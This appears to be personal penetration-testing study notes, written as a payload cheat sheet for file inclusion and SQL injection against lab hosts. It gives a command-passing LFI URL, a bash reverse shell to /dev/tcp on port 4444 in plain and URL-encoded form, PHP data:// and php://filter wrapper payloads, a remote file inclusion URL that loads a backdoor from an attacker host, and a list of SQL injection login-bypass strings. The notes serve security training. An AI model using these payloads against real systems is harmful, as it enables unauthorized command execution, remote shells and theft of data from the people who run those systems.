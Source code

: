 - Main difference between Directory traversal and this attack is, here we’re able to execute commands remotely.

```bash
# we're passing a command here
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami 

# Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
# We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
# encoded version of above reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 

# PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('user%20-a');?>" 
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php 
```

## Remote file inclusion

```bash
1. Obtain a php shell
2. host a file server 
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

## SQL Injection

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"# 
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1# 
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"# 
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"# 
) or '1`='1-
```
